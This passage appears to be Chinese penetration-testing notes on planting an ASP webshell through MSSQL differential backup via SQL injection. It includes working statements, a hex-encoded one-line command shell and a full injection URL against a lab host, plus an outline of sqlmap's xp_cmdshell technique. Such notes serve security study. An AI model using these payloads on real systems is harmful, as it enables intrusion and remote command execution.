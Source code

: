 > 写不进去可以尝试重放发送payload

## 差异备份写shell

利用条件：

- 至少DBO权限
- 前提知道绝对路径，路径可写。
- HTTP 500错误不是自定义
- WEB和数据库在一块。还有的就是数据库中不能存在%号之类的，不然也是不成功的。
- 数据量不能太大

```
;backup database test to disk = 'c:\\inetpub\\wwwroot\\mssql.bak' ;--    //先手动备份一次
;create table test..test(a image)--     //建立表，加字段
;insert into test..test(a) values (0x3C25657865637574652872657175657374282261222929253E)--     
//插入一句话木马到表中，注意16进制
;backup database test to disk = 'c:\\inetpub\\wwwroot\\shell.asp' with differential , format ;--    
//进行差异备份
;Drop table test..test--     //备份完getshell过后删除表
组合所有语句
use test;
backup database test to disk = 'c:\\inetpub\\wwwroot\\mssql1.bak';
create table test..test1(a image);
insert into test..test1(a) values (0x3C25657865637574652872657175657374282261222929253E);
backup database test to disk = 'c:\\inetpub\\wwwroot\\shell1.asp' with differential,format;
Drop table test..test1;
http://192.168.172.140/less-1.asp?id=1';use test;backup database test to disk = 'c:\\inetpub\\wwwroot\\mssql1.bak';create table test..test1(a image);insert into test..test1(a) values (0x3C25657865637574652872657175657374282261222929253E);backup database test to disk = 'c:\\inetpub\\wwwroot\\shell1.asp' with differential,format;Drop table test..test1;--
```

## sqlmap -os-shell|--os-cmd对于mysql和mssql有什么区别

mysq环境下：

- 利用联合查询或堆叠查询写文件（into outfile|dumpfile)
- 利用已知的web绝对路径，写入文件上传页面
- 利用文件上传页面上传 命令执行小马
- 利用命令执行小马 执行系统命令

mssql环境下：

- 探测xp_cmdshell扩展存储过程是否可用（是否被删除，删除则无法利用）
- 如果被禁用则利用堆叠注入执行exec sp_configure开启xp_cmdshell
- 创建sqlmapoutput表，其中有id data字段
- 利用堆叠注入通过declare声明变量并组合xp_cmdshell执行命令，将执行结果存入sqlmapoutput表中的data字段
- 利用时间盲注从sqlmapoutput表的data字段中取出命令执行结果

